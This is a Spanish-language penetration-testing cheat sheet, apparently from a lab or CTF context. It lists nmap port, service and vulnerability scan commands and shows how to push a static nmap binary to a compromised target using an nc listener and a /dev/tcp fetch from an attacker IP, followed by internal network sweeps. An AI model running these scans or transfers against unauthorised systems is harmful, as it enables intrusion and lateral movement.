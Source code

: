 ### Escaneos de puertos, servicios y versiones de un host con la herramienta "nmap"

//Escanea todos los puertos abiertos, modo verbose, sin DNS
	`nmap -p- --open -T5 -v -n <ip> -oG allPorts`
	
//Escanea bajo TCP Port Sync Scan, mejora el rendimiento del escaneo
	`nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn <ip> -oG allPorts`

//Escanea los 5000 puertos principales, salida en formato grepeable
	`nmap --top-5000 --open -T5 -v -n <ip> -oG top5000Ports`
	
//Scripts por defecto, servicios y versiones
	`nmap -sC -sV -p21,22,53,80 <ip> -oN targeted`
	
//Comprobación de un puerto específico
	`nmap -p445 --open -T5 -v -n <ip>`
	
//Ejecución de scripts sobre el puerto 445 para buscar vulnerabilidades en SMB	
	`nmap --script "vuln and safe" -p445 10.10.10.40 -oN vulnScan`
	
//Escaneo con salida a formato XML para presentar un reporte
	`nmap -sC -sV -p21,22,53,80 <ip> -oX xmlReport`
	`xsltproc xmlReport > /var/www/html/index.html` --> Pasa xml a html
	`service apache2 start` --> Abrimos servicio Apache para habilitar el puerto 80
	En el navegador podemos ver el index.html --> localhost
	
==================================================================

** Binario de NMAP estático. **
Transferir fichero estático de nmap (https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
> En local --> `nc -nlvp 443 < nmap`
> En la máquina objetivo --> `cat > nmap < /dev/tcp/10.9.6.44/443`
> Comparamos hashes con 'md5sum' para comprobar que la data es idéntica

Ejecución:
> Reconocimiento de la red --> `./nmap -sn 172.16.1.0/24`
> Escaner de puertos sobre un equipo --> `./nmap --open -T5 -v -n -p- 172.16.1.128`
	
